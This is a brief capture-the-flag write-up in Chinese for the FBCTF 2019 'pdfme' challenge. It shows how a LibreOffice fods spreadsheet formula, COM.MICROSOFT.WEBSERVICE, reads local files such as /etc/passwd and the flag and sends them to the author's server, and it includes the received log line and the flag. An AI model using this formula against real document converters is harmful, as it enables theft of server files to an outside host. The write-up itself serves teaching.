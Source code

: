 # pdfme

這題其實跟DCTF Final某題非常像

只是當初沒解出來，所以這題還是花了很多時間解XD

找個fods file，然後可以在裡頭用 libreoffice macro 去任意讀檔

讀出來的內容可以用`WEBSERVICE`往外傳



`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;)` => send http request to my server

`=COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;)` => read `/etc/passwd` file

組合起來

`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;&amp;COM.MICROSOFT.WEBSERVICE(&quot;/home/libreoffice_admin/flag&quot;))`

會把帶有 flag 的 Request 送到我們的 server: 

`[01/Jun/2019:22:05:06 +0000] "OPTIONS /xfb%7Bwh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful%7D%0A HTTP/1.1" 200 193 "-" "LibreOffice"`



flag: `fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}`

詳細見payload: [flag.fods](https://github.com/w181496/CTF/blob/master/fbctf2019/pdfme/flag.fods)

